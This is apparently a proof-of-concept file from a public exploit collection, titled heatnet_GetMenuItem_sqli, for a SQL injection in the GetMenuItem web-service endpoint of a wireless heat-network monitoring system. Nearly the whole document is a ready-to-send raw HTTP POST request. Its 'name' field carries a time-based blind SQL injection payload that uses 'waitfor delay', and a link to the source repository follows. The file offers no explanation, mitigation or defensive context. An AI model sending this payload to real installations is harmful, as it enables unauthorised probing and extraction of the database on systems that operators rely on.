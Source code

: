 # heatnet_GetMenuItem_sqli

```
POST /DataSrvs/UCCGSrv.asmx/GetMenuItem HTTP/1.1
Host: 
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
name=1') waitfor delay '0:0:5'-- +
```

from: https://github.com/wy876/POC/blob/main/%E7%83%AD%E7%BD%91%E6%97%A0%E7%BA%BF%E7%9B%91%E6%B5%8B%E7%B3%BB%E7%BB%9F/%E7%83%AD%E7%BD%91%E6%97%A0%E7%BA%BF%E7%9B%91%E6%B5%8B%E7%B3%BB%E7%BB%9FGetMenuItem%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
